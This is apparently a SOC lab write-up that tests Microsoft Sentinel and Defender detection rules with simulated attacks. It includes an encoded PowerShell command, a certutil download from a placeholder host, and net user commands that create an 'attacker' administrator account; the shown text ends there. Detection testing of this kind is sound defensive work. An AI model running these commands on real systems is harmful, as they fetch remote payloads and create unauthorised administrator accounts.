## Detection Validation Scenarios

This lab validates the detection rules created in Day 8 by simulating realistic attack activity.

The following scenarios are tested:

1. Suspicious PowerShell Execution
2. Living-Off-The-Land Binary (LOLBIN) Abuse
3. Privilege Escalation via Account Creation

---

# Simulation 1 – Suspicious PowerShell Execution Detection

### Objective

The goal of this simulation was to validate the custom Microsoft Sentinel analytics rule **"Suspicious PowerShell Execution Flags"** created during Day 8.

This rule detects PowerShell executions containing suspicious command-line arguments commonly used by attackers to bypass security controls or execute malicious scripts.

---

## 1. Simulating Suspicious PowerShell Activity

To simulate attacker behaviour, a PowerShell command containing an encoded payload was executed on the test VM.

This mimics how attackers often hide malicious commands using Base64 encoding.

Example command executed:

```
powershell.exe -EncodedCommand ZQBjAGgAbwAgACIAUwBpAG0AdQBsAGEAdABlAGQAIABBAHQAdABhAGMAawAiAA==
```

This technique maps to the MITRE ATT&CK technique:

**T1059.001 – Command and Scripting Interpreter: PowerShell**



---

## 2. Detection Rule Triggered

After the command was executed, the Microsoft Sentinel analytics rule successfully detected the suspicious activity and generated an alert.

The alert appeared within the **Microsoft Defender Incident portal**, confirming the detection rule was functioning correctly.



---

## 3. Reviewing Alert Details

Opening the alert reveals additional context about the detected activity.

Key information captured by the detection rule includes:

- Device Name
- Account Name
- Executed Process
- Full PowerShell command line
- Initiating process

This confirms the telemetry captured by the KQL query successfully detected the suspicious PowerShell execution.



---

## 4. Query Results Validation

The alert also provides access to the raw query results that triggered the detection rule.

These results display the telemetry returned from the **DeviceProcessEvents** table, including the exact command that executed on the endpoint.

This allows analysts to verify that the detection rule correctly matched the suspicious command line arguments.



---

## 5. Detection Rule Improvement – Entity Mapping

During investigation it was observed that the incident graph did not automatically populate related entities such as the device or user responsible for the activity.

This occurred because the original analytics rule did not include **entity mapping configuration**.

To improve investigation capabilities, entity mapping was added to the rule.

The following mappings were configured:

- **Host → DeviceName**
- **Account → AccountName**
- **Process → ProcessCommandLine**

This allows Microsoft Sentinel to automatically associate alerts with relevant devices and users during investigations.



---

## 6. Retesting the Detection Rule

After configuring entity mapping, the PowerShell command was executed again to validate the updated rule.

Because the analytics rule runs every **5 minutes** while searching the previous **10 minutes of telemetry**, multiple alerts were generated for the same activity.

This behaviour highlights an important SIEM concept: detection rules may generate duplicate alerts if suppression or tuning is not configured.



---

## 7. Improved Alert Context

The newly generated alert now includes the mapped entities.

Microsoft Sentinel is able to automatically associate the alert with the affected device and user account, improving investigation context for SOC analysts.

This demonstrates how **entity mapping enhances detection rules by providing richer investigation data**.



---

## Key Outcome

This simulation successfully demonstrated the full detection validation process:

- Simulating suspicious PowerShell execution
- Triggering a custom Sentinel analytics rule
- Investigating the resulting alert
- Validating telemetry through query results
- Improving the detection rule using entity mapping
- Retesting the rule to confirm improved alert context

This workflow mirrors the real-world process used by SOC analysts when validating and tuning SIEM detection rules.

---

# Simulation 2 — Living-Off-The-Land Binary (LOLBIN) Abuse Detection

---


## Simulation 2 — Living-Off-The-Land Binary (LOLBIN) Abuse Detection

This simulation tests the detection of **Living-Off-The-Land Binary (LOLBIN) abuse**, where attackers leverage legitimate Windows tools to perform malicious activity.

A common example is **certutil.exe**, which can be abused to download malicious payloads or stage further attacks. In real-world environments, attackers frequently use built-in utilities to avoid detection.

In this simulation, a command using `certutil` was executed to simulate an attacker attempting to download a remote payload.

---

### Step 1 — Execute LOLBIN Command

The following command was executed in **Command Prompt** to simulate malicious activity using a built-in Windows binary:

```
certutil -urlcache -split -f http://example.com payload.txt
```

This command attempts to download a file from a remote location and store it locally.

In real-world attack scenarios, this technique is often used to download malicious payloads or staging tools.



---

### Step 2 — Endpoint Protection Detection

Immediately after executing the command, **Microsoft Defender Antivirus detected the activity and blocked it before the command could complete**.

A Windows Security notification appeared indicating that a potential threat had been detected.

This demonstrates how **endpoint protection can automatically prevent malicious behaviour before it progresses further in the attack chain**.

---

### Step 3 — Incident Generated in Microsoft Defender

Because the suspicious command execution was detected by Defender, an **incident was automatically generated within Microsoft Defender**.

Incidents aggregate related alerts and provide additional context for investigation by security analysts.

The incident shows that the command execution was **prevented before further impact occurred**.



---

### Step 4 — Alert Investigation

Opening the incident allows analysts to review **investigation results and alert evidence**.

The investigation confirms:

- Detection source: **Microsoft Defender Antivirus**
- Detection status: **Blocked**
- The malicious command was prevented from executing successfully.

This demonstrates how security analysts can review investigation results and confirm that the threat was successfully mitigated.



---

### Step 5 — Alert Details

The alert details provide deeper visibility into the detected activity, including:

- Detection technology used
- Detection source
- Detection status
- Timeline of the event

This information helps analysts validate whether the activity represents malicious behaviour or legitimate testing.



---

### Key Takeaways

This simulation demonstrates several important SOC detection concepts:

- Attackers frequently abuse **legitimate Windows utilities (LOLBINs)** to perform malicious actions.
- **Microsoft Defender Antivirus detected and blocked the command automatically**, preventing further execution.
- Defender generated an **incident that aggregates alerts and investigation context**.
- Security analysts can review **investigation results and alert evidence** to understand how the activity occurred and confirm remediation.

Although a Sentinel detection rule was configured to detect LOLBIN activity, the **endpoint protection platform prevented the malicious activity earlier in the detection chain**, which is common in real-world environments where multiple security layers work together.

In enterprise environments, Microsoft Defender Tamper Protection prevents attackers from disabling endpoint protection settings. This ensures that even if an attacker obtains administrative privileges, Defender security controls remain enforced. Security teams monitor attempts to modify Defender configuration through SIEM alerts and endpoint telemetry.

---

# Simulation 2 — Living-Off-The-Land Binary (LOLBIN) Abuse Detection

---

## Simulation 3 — Privilege Escalation via Local Administrator Account Creation

This simulation tests detection of **privilege escalation techniques**, where attackers create new accounts and elevate them to administrative privileges for persistence and control of the system.

Creating unauthorized administrator accounts is a common attacker technique used after initial access.

---

### Step 1 — Create a New Local User

A new user account was created using the `net user` command.

```
net user attacker Password123! /add
```
Then the newly created account was added to the local Administrators group.

```
net localgroup administrators attacker /add
```

